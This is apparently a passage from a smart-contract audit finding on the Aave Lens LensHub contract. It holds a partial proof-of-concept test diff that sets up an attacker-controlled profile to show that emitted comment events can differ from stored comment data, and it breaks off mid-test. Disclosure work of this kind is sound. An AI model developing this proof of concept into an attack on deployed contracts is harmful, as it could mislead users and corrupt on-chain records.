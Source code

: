 [LensHub.sol#L878-L888](https://github.com/code-423n4/2022-02-aave-lens/blob/c1d2de2b0609b7d2734ada2ce45c91a73cc54dd9/contracts/core/LensHub.sol#L878-L888)<br>

The following test uses this altered module and shows that the attacker can emit a different comment than is actually stored by/used for subsequent comments:

```diff
diff --git a/publishing-comments.spec.ts.original b/publishing-comments.spec.ts
index 471ba68..32dfb3a 100644
--- a/publishing-comments.spec.ts.original
+++ b/publishing-comments.spec.ts
@@ -3,6 +3,11 @@ import { expect } from 'chai';
 import { MAX_UINT256, ZERO_ADDRESS } from '../../helpers/constants';
 import { ERRORS } from '../../helpers/errors';
 import { cancelWithPermitForAll, getCommentWithSigParts } from '../../helpers/utils';
+import {
+  getTimestamp,
+  matchEvent,
+  waitForTx,
+} from '../../helpers/utils';
 import {
   abiCoder,
   emptyCollectModule,
@@ -59,7 +64,7 @@ makeSuiteCleanRoom('Publishing Comments', function () {
         })
       ).to.not.be.reverted;
     });
-
+/**
     context('Negatives', function () {
       it('UserTwo should fail to publish a comment to a profile owned by User', async function () {
         await expect(
@@ -151,8 +156,9 @@ makeSuiteCleanRoom('Publishing Comments', function () {
         ).to.be.revertedWith(ERRORS.PUBLICATION_DOES_NOT_EXIST);
       });
     });
-
+/**/
     context('Scenarios', function () {
+/**
       it('User should create a comment with empty collect module data, reference module, and reference module data, fetched comment data should be accurate', async function () {
         await expect(
           lensHub.comment({
@@ -175,8 +181,23 @@ makeSuiteCleanRoom('Publishing Comments', function () {
         expect(pub.collectNFT).to.eq(ZERO_ADDRESS);
         expect(pub.referenceModule).to.eq(ZERO_ADDRESS);
       });
-
+/**/
       it('User should create a post using the mock reference module as reference module, then comment on that post', async function () {
+
+        // user acquires account and sets up the attacking profile
+        await expect(
+          lensHub.createProfile({
+            to: mockReferenceModule.address,
+            handle: "attack.eth",
+            imageURI: MOCK_PROFILE_URI,
+            followModule: ZERO_ADDRESS,
+            followModuleData: [],
+            followNFTURI: MOCK_FOLLOW_NFT_URI,
+          })
+        ).to.not.be.reverted;
```